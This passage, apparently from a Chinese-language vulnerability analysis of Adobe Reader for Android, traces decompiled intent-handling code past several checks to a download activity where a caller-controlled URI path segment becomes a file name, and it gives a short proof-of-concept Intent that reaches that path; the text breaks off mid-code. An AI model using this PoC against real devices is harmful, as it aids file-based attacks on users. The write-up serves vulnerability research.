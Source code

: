 第四个判断点，只要是`http`或者`https`即可绕过

第五个判断点

```Java
if(__intent__.getData() != null && !__intent__.getData().toString().contains("app.link")) {  // 第五个判断点
    Intent intentToARFileURLDownloadActivity = new Intent(this, ARFileURLDownloadActivity.class);
    intentToARFileURLDownloadActivity.putExtra("FILE_PATH_key", __intent__.getData());
    intentToARFileURLDownloadActivity.putExtra("FILE_MIME_TYPE", __intent__.getType());
    this.startActivity(intentToARFileURLDownloadActivity);  // [3]
    this.logSourceInfo();
    this.logLaunchAnalytics("Document Download", __intent__.getAction(), __intent__.getType());
    this.finish();
    return;
}
```

如下构造PoC即可使业务逻辑走到`[3]`，添加了Uri和Type字段

```Java
Intent intent = new Intent();
intent.setClassName("com.adobe.reader", "com.adobe.reader.AdobeReader");
intent.setDataAndType(Uri.parse("https://127.0.0.1/a/b/c/poc.pdf"), "application/*");
intent.putExtra("hideOptionalScreen", "true");
startActivity(intent);
```

跳转到`ARFileURLDownloadActivity`后，会将传入Uri的Path字段取出并构造出一个文件路径，用于界面展示，然后传进来的数据会被整合传递到`ARFileURLDownloadService`

```Java
// com.adobe.reader.misc.ARFileURLDownloadActivity
public class ARFileURLDownloadActivity extends ARFileTransferActivity {

    @Override  // com.adobe.reader.misc.ARFileTransferActivity
    public void onMAMCreate(Bundle bundle) {
        super.onMAMCreate(bundle);
        this.mServiceIntent = new Intent(this, ARFileURLDownloadService.class);  // 构造Intent
        Bundle newBundle = new Bundle();
        Bundle __intent_extras__ = this.getIntent().getExtras();
        Uri __intent_extras_FILE_PATH_key__ = (Uri)__intent_extras__.getParcelable("FILE_PATH_key");
        String __intent_extras_FILE_MIME_TYPE__ = __intent_extras__.getString("FILE_MIME_TYPE");
        String __intent_extras_FILE_PATH_key_lastPathSegment__ = __intent_extras_FILE_PATH_key__.getLastPathSegment();  // 获取Uri的Path，外部可控
        if(__intent_extras_FILE_PATH_key_lastPathSegment__ == null) {
            new BBToast(ARApp.getAppContext(), 1).withText(this.getResources().getString(0x7F13063E)).show();  // 无效的文件名
            this.finish();
            return;
        }

        String modifiedFileNameWithExtension = BBIntentUtils.getModifiedFileNameWithExtensionUsingIntentData(__intent_extras_FILE_PATH_key_lastPathSegment__, __intent_extras_FILE_MIME_TYPE__, null, __intent_extras_FILE_PATH_key__);  // 漏洞点
        String IDS_CLOUD_DOWNLOADING_STR = this.getString(0x7F130222);  // 正在打开
        newBundle.putParcelable("FILE_PATH_key", __intent_extras_FILE_PATH_key__);
        String fileID = String.valueOf(System.currentTimeMillis());  // 这个字段用于后续通知
        this.mFileID = fileID;
        newBundle.putCharSequence("FILE_ID_key", fileID);
        newBundle.putString("FILE_MIME_TYPE", __intent_extras_FILE_MIME_TYPE__);
        ((TextView)this.findViewById(0x7F0B0225)).setText(modifiedFileNameWithExtension);
        this.setTransferStatusText(IDS_CLOUD_DOWNLOADING_STR);
        ((ImageView)this.findViewById(0x7F0B0220)).setImageResource(ARUtils.getProgressViewDrawableIconForFile(modifiedFileNameWithExtension, __intent_extras_FILE_MIME_TYPE__));  // 进度条
        this.registerBroadcastReceivers();
```